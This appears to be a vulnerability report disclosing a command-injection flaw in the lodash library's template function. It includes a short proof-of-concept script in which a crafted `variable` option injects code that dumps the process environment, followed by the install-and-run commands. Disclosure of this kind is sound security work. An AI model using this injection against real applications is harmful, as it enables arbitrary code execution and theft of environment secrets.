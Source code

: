 # Description

Command Injection in lodash

# Proof of Concept

1. Create the following PoC file:

```
// poc.js
var lodash = require('lodash');

lodash.template('', { variable: '){console.log(process.env)}; with(obj' })()
```

2. Execute the following commands in terminal:

```
npm i lodash # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output.
